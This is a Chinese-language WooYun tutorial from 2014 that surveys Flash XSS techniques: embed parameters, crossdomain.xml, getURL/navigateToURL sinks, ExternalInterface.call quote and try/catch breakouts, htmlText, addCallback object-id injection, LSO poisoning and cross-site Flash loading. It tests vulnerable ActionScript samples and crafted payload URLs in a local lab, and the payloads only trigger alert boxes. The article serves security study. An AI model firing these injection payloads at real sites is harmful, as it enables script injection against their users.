# 常见 Flash XSS 攻击方式

2014/09/03 11:30 | [MayIKissYou](http://drops.wooyun.org/author/MayIKissYou "由 MayIKissYou 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

## 0x01 HTML 中嵌入 FLASH

* * *

在 HTML 中嵌入 FLASH 的时候在 IE 和非 IE 浏览器下嵌入的方式有所不同，可以使用 embed 标签和 object 标签，使用如下的代码进行嵌入：

IE 下嵌入

```
<object codeBase="http://fpdownload.macromedia.com/get/Flashplayer/current/swFlash.cab#version=8,0,0,0" classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000">
<param name="movie" value = "http://xxxx.sinaapp.com/trace.swf" />
<param name="allowScriptAccess" value="always" />
<param name="allowNetworking" value="all" />
</object>

```

非 IE 下嵌入

```
<object type="application/x-shockwave-Flash" data="./trace.swf">
<param name="movie" value = "./trace.swf" />
<param name="allowScriptAccess" value="always" />
<param name="allowNetworking" value="all" />
</object>

```

在插入 Flash 的过程中有两个重要的参数，allowScriptAccess 和 allowNetworking 两个参数：

```
allowScriptAccess：控制 html 页面与 Flash 页面的通讯。
always：html 和 Flash 页面的通讯不做任何的限制；
samedomain：html 和 Flash 同域的时候可以做通讯【这个值是默认值】；
never：html 和 Flash 禁止通讯。

allowNetworking：控制 Flash 与外部的网络通讯。
all：Flash 所有的网络 API 通讯接口都可用；
internal：navigateToURL，fscommand，ExternalInterface.call 不可用；
none：所有的网络 API 不可用。 
```

以 chrome 浏览器为例来验证以上参数，首先在本地搭建环境，并且新建一个 Flash 文件，Flash 文件包括的内容主要是使用 ExternalInterface.call 执行力一个 js 语句，弹出当前域的域名。

1）：插入本地的 Flash 文件。

```
<object type="application/x-shockwave-Flash" data="./trace.swf">
<param name="movie" value = "./trace.swf" />
<param name="allowScriptAccess" value="always" />
<param name="allowNetworking" value="all" />
</object>

```

运行结果：



2）：插入本地的 Flash，将 allowScriptAccess 参数改为 samedomain。

```
<object type="application/x-shockwave-Flash" data="./trace.swf">
<param name="movie" value = "./trace.swf" />
<param name="allowScriptAccess" value="samedomain" />
<param name="allowNetworking" value="all" />

```

运行结果：


Html 界面与 Flash 属于同域，因此能够弹出。

3）：插入本地 Flash，将 allowScriptAccess 改为 never。

```
<object type="application/x-shockwave-Flash" data="./trace.swf">
<param name="movie" value = "./trace.swf" />
<param name="allowScriptAccess" value="never" />
<param name="allowNetworking" value="all" />
</object>

```

运行结果没有弹出。

4）：插入远程 Flash，将 allowScriptAccess 改为 always。

```
<object type="application/x-shockwave-Flash" data="http://xxxxx.sinaapp.com/trace.swf">
<param name="movie" value = "http://xxxx.sinaapp.com/trace.swf" />
<param name="allowScriptAccess" value="always" />
<param name="allowNetworking" value="all" />
</object>

```

运行结果：



注意这里弹出的域为当前 html 的域名，非 Flash 的域。

5）：插入远程 Flash，将 allowScriptAccess 改为 samedomain

```
<object type="application/x-shockwave-Flash" data="http://xxxxx.sinaapp.com/trace.swf">
<param name="movie" value = "http://xxxx.sinaapp.com/trace.swf" />
<param name="allowScriptAccess" value="samedomain" />
<param name="allowNetworking" value="all" />
</object>

```

运行结果没有弹出，因为 Flash 的域不和 html 在同一域内。

6）：插入远程 Flash，将 allowScriptAccess 改为 never

```
<object type="application/x-shockwave-Flash" data="http://xxxxx.sinaapp.com/trace.swf">
<param name="movie" value = "http://xxxxx.sinaapp.com/trace.swf" />
<param name="allowScriptAccess" value="never" />
<param name="allowNetworking" value="all" />
</object>

```

运行结果没有弹出，由于禁止了与 html 界面通讯。

7）将 allowScriptAccess 置为 always，将 allowNetworking 置为 internal

```
<object type="application/x-shockwave-Flash" data="http://xxxxx.sinaapp.com/trace.swf">
<param name="movie" value = "http://xxxxx.sinaapp.com/trace.swf" />
<param name="allowScriptAccess" value="always" />
<param name="allowNetworking" value="internal" />

```

运行结果没有弹出，allowNetworking 的参数置为 internal，禁止了接口 ExternalInterface.all。

## 0x02 Flash 跨域请求

* * *

Flash 跨域访问的时候主要受到 crossdomain.xml 文件的影响。crossdomain.xml 文件严格遵循 xml 语法，主要作用就是当被 Flash 请求到本域资源的时候，是否允许请求。 例如： www.evil.com 中嵌入一个 Flash，Flash 跨域请求 www.q.com 下的资源，此时会先查看 www.q.com 目录下的 crossdomain.xml 文件，查看是否允许 evil.com 域 Flash 请求本域的资源。 crossdomain.xml 文件主要包含如下几个节点：

```
site-control，allow-access-from，allow-access-from-identity，allow-http-request-headers-from 
```

常用的节点为 allow-access-from【可能我见的少= =】，用来指明允许本域资源允许被哪些域名的 Flash 跨域请求。

例如下面为优酷的 crossdomain.xml 文件：

```
<cross-domain-policy>
<allow-access-from domain="*.youku.com"/> //允许 youku.com 域名的 Flash 访问
<allow-access-from domain="*.ykimg.com"/>
<allow-access-from domain="*.tudou.com"/>
<allow-access-from domain="*.tudouui.com"/>
<allow-access-from domain="*.tdimg.com"/>
</cross-domain-policy>

```

Ps.这个文件常常被用到 Flash csrf 中，当 allow-access-from domain 被设置为*后，可能存在 Flash csrf 的风险。

## 0x03 常见 Flash xss 分类总结

* * *

**Flash 缺陷参数-getURL**

Flash 提供相关的函数，可以执行 js 代码，getURL【AS2 中支持】，navigateToURL【AS3 中支持】，ExternalInterface.call。 在 wooyun 中搜索到了一个相关实例：

[WooYun: 久游网 FLASH 安全问题深入分析与利用(一)](http://www.wooyun.org/bugs/wooyun-2013-018472)

本着学习的原则本地搭建实践了下： 本地新建了个 Flash，Flash 调用外部资源 xml 文件。 Flash 代码：

```
var root_xml:XML = new XML();
root_xml.ignoreWhite = true;
root_xml.onLoad = function(success){
    if(success){
        getURL(root_xml.childNodes[0].childNodes[0].childNodes[0].nodeValue)
    }else{
        getURL("javascript:alert(‘fail’)")
    }
}
root_xml.load(_root.url);

```

xml 文件：

```
<?xml version="1.0" encoding="utf-8" ?>
<data>
    <link>javascript:alert('xss')</link>
</data>

```

运行结果：



Ps.此类问题一般可以使用 google 搜索 xml 文件被 swf 调用的情况，传入的内容如果没做过滤，很可能出现此类问题。

**Flash 缺陷参数-navigateToURL**

* * *

上例中 getURL（）为 AS2 中的方法，在 AS3 中使用的是 navigateToURL，wooyun 中上报过此参数导致 Flash xss 的实例。

[WooYun: [腾讯实例教程] 那些年我们一起学 XSS - 14\. Flash Xss 入门 [navigateToURL]](http://www.wooyun.org/bugs/wooyun-2012-016512)

此类问题原理一般是由于调用了的资源文件（如 xml）可被攻击者控制，导致了 Flash xss。

本着学习的原则，本地搭建实践了下： Flash 文件：

```
var url:String = stage.loaderInfo.parameters.url
var req:URLRequest = new URLRequest("a.xml");
var ld:URLLoader = new URLLoader();
ld.addEventListener(Event.COMPLETE ,ok);
function ok(evtObj:Event):void {
    if(ld.data){
        navigateToURL(new URLRequest(url),'_self')
    } else {        
    }
}
ld.load(req)

```

大致意思就是从外部获取了一个参数，通过 navigateToURL 调用。

运行结果：



**Flash 缺陷参数-ExternalInterface.call(参数一)**

ExternalInterface.call 同样是一个 Flash 提供的可以执行 js 的接口函数， ExternalInterface.call 函数有两个参数，形如 ExternalInterface.call("函数名","参数 1")。

Flash 最后执行的 JS 代码如下：

```
try { __Flash__toXML(函数名("参数 1")) ; } catch (e) { "<undefined/>"; }

```

此段先考虑参数 1，即函数名。

Wooyun 上相关的实例有：

[WooYun: [腾讯实例教程] 那些年我们一起学 XSS - 15\. Flash Xss 进阶 [ExternalInterface.call 第一个参数]](http://www.wooyun.org/bugs/wooyun-2012-016532)

[WooYun: Flash 应用安全系列[1]--360 反射型跨站](http://www.wooyun.org/bugs/wooyun-2013-017013)

这两篇都写的很详细。

本着学习的原则，本地搭建实践了下： Flash 文件：

```
var a:String = root.loaderInfo.parameters.func
if(ExternalInterface.available){
    ExternalInterface.call(a)
} else {
    trace(100)
}
stop()

```

从外部获取参数 func，使用 ExternalInterface.call 接收第一个参数，执行。

对比：

```
try { __Flash__toXML(函数名("参数 1")) ; } catch (e) { "<undefined/>"; }

```

创建 url：

```
http://192.168.4.70/ExternalInterface_first.swf?func=alert(1))}catch(e){alert(100)}// 
```

这样实际执行的 js 代码为：

```
try { __Flash__toXML(alert(1))}catch(e){alert(100)}// ("参数 1")) ; } catch (e) { "<undefined/>"; }

http://192.168.4.70/ExternalInterface_first.swf?func=a1lert(1))}catch(e){alert(100)}//

try { __Flash__toXML(a1lert(1))}catch(e){alert(100)}// ("参数 1")) ; } catch (e) { "<undefined/>"; }

```

预期结果应该是第一个 url 执行之后弹出数字 1，第二个 url 执行之后弹出数字 100。 访问

```
http://192.168.4.70/ExternalInterface_first.swf?func=alert(1))}catch(e){alert(100)}// 
```



访问

```
http://192.168.4.70/ExternalInterface_first.swf?func=a1lert(1))}catch(e){alert(100)}// 
```



和预期结果一样。

**Flash 缺陷参数-ExternalInterface.call(参数二)**

有时候当反编译 swf 之后，会发现可控的参数的输出位置在 ExternalInterface.call 函数的第二个参数，方法和思路与第一个参数的时候类似。

Wooyun 里面相关的例子：

[WooYun: [腾讯实例教程] 那些年我们一起学 XSS - 16\. Flash Xss 进阶 [ExternalInterface.call 第二个参数]](http://www.wooyun.org/bugs/wooyun-2012-016598)

[WooYun: Flash 应用安全系列[3]--WordPress 反射型跨站(0day)](http://www.wooyun.org/bugs/wooyun-2013-017189)

Flash 文件：

```
var a:String = root.loaderInfo.parameters.par
if(ExternalInterface.available){
    ExternalInterface.call("alert",a)
} else {
    trace(100)
}
stop()

```

Flash 文件中的 a 是从外部获取的参数，此处外部获取的参数 par 赋值给了 a，作为输出点输出到了 ExternalInterface 的第二个参数的位置，此处相对于第一个参数的不同之处是，此处的输出点在引号中，因此此处我们需要把引号闭合掉。根据上面两边文章，可以发现闭合引号使用的方法是\”这样会被转义为\”，”就被吃掉了。

根据 ExternalInterface.call 的调用原型：

```
try { __Flash__toXML(函数名("参数 1")) ; } catch (e) { "<undefined/>"; }

```

我们将参数输入如下的 url：

```
http://192.168.4.70/ExternalInterface_second.swf?par=1111\%22),al)}catch(e){alert(1000)}// 
```

分析应该执行如下：

```
try{
  __Flash__toXML(alert(“1111\\”),al
}
catch(e){
  alert(1000)
}

```

如此下来应该就会弹出两个框，一个为 1111\，另外一个为 1000。 运行结果，弹出 1111\：



点击确定，弹出 1000：



Ps. 此处 ExternalInterface.call 调用的函数名，编写 Flash 的时候设置了 alert，因此此处会弹两次，一般情况下，函数名是不能够被控制，这样我们使得，前面的函数执行异常，执行 catch 中的 js 即可。

**Flash 缺陷参数-htmlText**

Flash 支持在 Flash 里内嵌 html，支持的标签 img 标签，a 标签等。 img 标签可以通过 src 参数引入一个 Flash 文件，类似与 XSF 一样。

[WooYun: Flash 应用安全系列[6]--新浪微博蠕虫威胁](http://www.wooyun.org/bugs/wooyun-2013-017699)

文档写的很详细，推荐阅读。 本着学习的原则，本地创建了 Flash 文件，

```
import fl.controls.TextArea;
var a:String = root.loaderInfo.parameters.url
var t:TextArea = new TextArea()
t.width = 500
t.height = 300
t.htmlText += a
addChild(t)

```

从获取 URL 中的参数 url，赋值给 a，变量 a 直接输出到了 Textarea t 中。 访问如下 url：

```
http://192.168.4.70/htmltext.swf?url=%3Cimg%20src=%27./trace.swf%27%3E 
```

访问结果如下：



Ps.当反编译 Flash 文件，发现 htmltext 输出点的时候，可以查看相关是否存在相关的可控的输入，可能存在 xss。 Flash 缺陷参数 object 的 id 可控 html 与 swf 通讯的时候，使用的是 ExternalInterface.addCallback 函数，调用如下：

```
function a(){
  trace(“hi”);
}
ExternalInterface.addCallback(“test”,a);

```

执行了函数之后，在 html 上可以通过使用函数名 test 来调用 Flash 中的函数 a。

addCallback 的原理：

```
if ((((activeX == true)) && (!((objectID == null))))){

    _evalJS((((("__Flash__addCallback(document.getElementById(\"" + objectID) + "\"), \"") + functionName) + "\");"));

};

```

objectID 为 Flash 的 id，functionName 为函数名称，因此当我们插入的 Flash 的 id 可控的时候，可能会出现 xss 问题。

Wooyun 上已经出现的类似问题：

[WooYun: [腾讯实例教程] 那些年我们一起学 XSS - 21\. 存储型 XSS 进阶 [猜测规则，利用 Flash addCallback 构造 XSS]](http://www.wooyun.org/bugs/wooyun-2013-016803)

[WooYun: Flash 应用安全系列[4]--Flash Player 的又一个 0day](http://www.wooyun.org/bugs/wooyun-2013-017309)

[WooYun: QQ 空间某功能缺陷导致日志存储型 XSS - 12](http://www.wooyun.org/bugs/wooyun-2013-021020)

本着学习的原则，本地创建了 Flash 文件，

```
function a(){
    trace("hi")
}
ExternalInterface.addCallback("test",a)

```

x.html 页面

```
<object id="addcallback,&quot;),(function(){if(!window.x){window.x=1;alert(1)}})(),(&quot;" codeBase="http://fpdownload.macromedia.com/get/Flashplayer/current/swFlash.cab#version=8,0,0,0" classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000">
<param name="movie" value = "./addCallback.swf" />
<param name="allowScriptAccess" value="always" />
<param name="allowNetworking" value="all" />
</object>

```

访问该界面（IE8 下测试）：



**Flash 缺陷参数 addcallback 与 lso 结合**

这个问题出现的点在 addCallback 声明的函数，在被 html 界面 js 执行之后的返回值攻击者可控，导致了 xss 问题。使用 lso 中首先会 setlso，写入脏数据，然后 getlso 获取脏数据。

Wooyun 实例链接：

[WooYun: 一个 flash 的 0day 导致的淘宝网存储 xss(可形成永久后门)](http://www.wooyun.org/bugs/wooyun-2013-039481)

[WooYun: 一个 flash 的 0day 导致的淘宝网存储 xss 【续集】](http://www.wooyun.org/bugs/wooyun-2013-040838)

[WooYun: 一个可大规模悄无声息窃取淘宝/支付宝账号与密码的漏洞 -（埋雷式攻击附带视频演示）](http://www.wooyun.org/bugs/wooyun-2014-051615)

[WooYun: 我是如何实现批量种植 rootkit 窃取阿里云账号密码的](http://www.wooyun.org/bugs/wooyun-2014-054102)

drops 下相关资料：

[一个可大规模悄无声息窃取淘宝/支付宝账号与密码的漏洞 -（埋雷式攻击附带视频演示）](http://drops.wooyun.org/papers/1426)

本着学习的原则，本地创建了 Flash 文件，

```
function setlso(_arg1:String):Boolean{
    var _local2:SharedObject = SharedObject.getLocal("kj");
    _local2.data.key = _arg1;
    _local2.flush();
    return (true);
}

function getlso():String{
    var _local1:SharedObject = SharedObject.getLocal("kj");
    if(_local1.data.key == undefined){
        return ("");
    }
    return (_local1.data.key);
}
ExternalInterface.addCallback("getlso",getlso)
ExternalInterface.addCallback("setlso",setlso)

```

x.html

```
<html>
<head></head>
<body>
<object id="lso" type="application/x-shockwave-Flash" data="http://192.168.4.70/addCallback_lso.swf">
<param name="movie" value = "http://192.168.4.70/addCallback_lso.swf" />
<param name="allowScriptAccess" value="always" />
<param name="allowNetworking" value="all" />
</object>
<script>
function set(){
    document["lso"].setlso('aa\\";alert(document.domain);//aa');
}
function get(){
    document["lso"].getlso();
}

setTimeout("get()",5000)
setTimeout("get()",7000)
</script>
</body>
</html>

```

运行结果：



**跨站 Flash**

跨站 Flash 即 XSF，通过 AS 加载第三方的 Flash 文件，如果这个第三方 Flash 可以被控制，就可以实现 XSF。 在 AS2 中使用 loadMove 函数等加载第三方 Flash。

```
_root.loadMovie(swf)；

```

在 AS3 中使用 Loader 类进行外部数据处理：

```
var param:Object = root.loaderInfo.parameters;
var swf:String = param[“swf”];
var myLoader:Loader = new Loader();
var url:URLRequest = new URLRequest(swf);
myLoader.load(url);
addChild(myLoader);

```

wooyun 上实例：

[WooYun: sina 微薄存储型跨站](http://www.wooyun.org/bugs/wooyun-2011-01768)

[WooYun: sina 微博存储型跨站Ⅱ](http://www.wooyun.org/bugs/wooyun-2011-01904)

[WooYun: sina 微博存储型跨站Ⅲ](http://www.wooyun.org/bugs/wooyun-2011-03574)

[WooYun: 百度贴吧存储型 XSS - Flash 又中枪了～～](http://www.wooyun.org/bugs/wooyun-2012-08354)

本地搭建环境，新建 Flash：

```
var param:Object = root.loaderInfo.parameters;
var swf:String = param["swf"];
var myLoader:Loader = new Loader();
var url:URLRequest = new URLRequest(swf);
myLoader.load(url);
addChild(myLoader);

```

新建本地 html 文件：

```
<object id="lso" type="application/x-shockwave-Flash" data="http://192.168.4.70/xsf.swf">
<param name="movie" value = "http://192.168.4.70/xsf.swf" />
<param name="allowScriptAccess" value="always" />
<param name="allowNetworking" value="all" />
<param name="Flashvars" value="swf=http://xxxxx.sinaapp.com/trace.swf"
</object>

```

运行结果，加载了远程有缺陷的 swf 文件导致了 xsf。



**其他**

1：addCallback 返回值从其他地方获取。

[WooYun: QQ 空间某功能缺陷导致日志存储型 XSS - 14](http://www.wooyun.org/bugs/wooyun-2014-051432)

2：利用上传文件如 xx.swf 修改为 xx.jpg 获得上传目标域下的 swf。

[WooYun: Flash 应用安全系列[5]--QQ 邮箱永久劫持漏洞](http://www.wooyun.org/bugs/wooyun-2013-017459)

[WooYun: 腾讯某分站可上传任意 swf 文件导致的一系列问题（附简单 POC）](http://www.wooyun.org/bugs/wooyun-2014-062461)

drops 相关链接：

[上传文件的陷阱](http://drops.wooyun.org/tips/2031)

版权声明：未经授权禁止转载 [MayIKissYou](http://drops.wooyun.org/author/MayIKissYou "由 MayIKissYou 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [无声杯 xss 挑战赛 writeup](http://drops.wooyun.org/tips/2671)
*   [Web 前端攻防](http://drops.wooyun.org/tips/2686)
*   [一种自动化检测 Flash 中 XSS 方法的探讨](http://drops.wooyun.org/tips/1985)
*   [上传文件的陷阱 II 纯数字字母的 swf 是漏洞么?](http://drops.wooyun.org/tips/2554)
*   [Flash 安全的一些总结](http://drops.wooyun.org/tips/153)
*   [Flash CSRF](http://drops.wooyun.org/tips/688)